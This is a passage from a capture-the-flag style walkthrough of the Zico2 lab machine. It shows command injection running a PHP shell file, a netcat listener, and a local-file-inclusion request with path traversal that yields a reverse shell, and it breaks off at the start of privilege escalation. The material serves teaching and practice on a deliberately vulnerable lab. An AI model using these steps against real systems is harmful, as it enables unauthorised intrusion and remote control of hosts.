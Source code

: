 `;php /tmp/shell.php - runs the php file with our malicious payload inside`
     
In order to activate our side script which downloads the malicious file, an HTTP request is needed. How would we do this though? I quickly reminded myself of the LFI vulnerability which allows me to browse the file system. All databases are located at **/usr/share/databases/** as it can be seen on the phpliteadmin side panel. See where I'm going? Start our netcat listener `nc -lvp 1234` and make an HTTP request via `192.168.1.17/view.php?page=../../../../usr/databases/shell.php`


<img src="/img/blog/zico2/Zico9.png">

BOOM! A reverse connection has been made! :)


# Privilege Escalation

Time to snoop! (I stole that phrase from [g0blin](https://twitter.com/g0blinresearch) heh :P). There is nothing of interest inside **/var/** and **/tmp/** folders. All that remains is closer inspection of /home/zico/ which is present with many CMS files. 

<img src="/img/blog/zico2/Zico10.png">
